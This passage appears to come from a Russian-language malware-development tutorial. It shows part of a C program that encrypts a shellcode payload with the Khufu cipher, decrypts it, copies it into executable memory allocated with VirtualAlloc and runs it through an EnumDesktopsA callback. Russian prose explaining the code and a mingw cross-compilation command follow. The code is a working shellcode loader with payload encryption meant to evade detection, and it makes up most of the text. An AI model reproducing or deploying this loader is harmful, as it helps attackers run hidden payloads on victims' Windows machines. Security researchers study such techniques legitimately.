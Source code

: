 ```cpp
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```

Таким образом, этот пример демонстрирует, как использовать алгоритм шифрования Khufu для шифрования и дешифрования полезной нагрузки. Для проверки корректности добавлена логика сравнения и вывода данных.   

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем код (на моей `linux`-машине):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```
